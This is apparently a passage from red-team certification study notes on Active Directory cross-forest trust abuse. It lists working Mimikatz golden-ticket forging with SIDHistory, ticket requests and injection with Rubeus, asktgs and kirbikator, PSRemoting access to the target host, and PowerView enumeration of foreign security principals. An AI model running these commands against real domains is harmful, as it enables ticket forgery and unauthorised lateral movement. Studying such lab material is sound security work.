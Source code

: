 From eu-dc, create a TGT with SIDHistory of EUAdmins group:
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt
/target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /ticket:C:\Users\Public\euvendornet.kirbi"'
```

Request a TGS:
```powershell
.\asktgs.exe C:\Users\Public\euvendornet.kirbi HTTP/euvendor-net.euvendor.local
```

Inject that into current session:
```powershell
.\kirbikator.exe lsa HTTP.euvendor-net.euvendor.local.kirbi
```
Or
```powershell
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\euvendornet.kirbi /service:HTTP/euvendor-net.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

Access the euvendor-net machine using PSRemoting:
```powershell
Invoke-Command -ScriptBlock{whoami} -ComputerName euvendor-net.euvendor.local -Authentication NegotiateWithImplicitCredential
```



# Trust Abuse (MSSQL Servers)

Same material as in the CRTP:

[CRTP - Trust Abuse (MSSQL Servers)](https://MashrurRahmanRawnok.github.io/notes/crtp/domprivesc/#trust-abuse---mssql-servers)


# Foreign Security Principals

> A Foreign Security Principal (FSP) represents a Security Principal in a external forest trust or special identities (like Authenticated Users, Enterprise DCs etc.).

- Only SID of a FSP is stored in the Foreign Security Principal Container which can be resolved using the trust relationship.
- FSP allows external principals to be added to domain local security groups. Thus, allowing such principals to access resources in the forest.
- Often, FSPs are ignored, mis-configured or too complex to change/cleanup in an enterprise making them ripe for abuse.

PowerView:
```powershell
Find-ForeignGroup -Verbose
Find-ForeignUser -Verbose
```
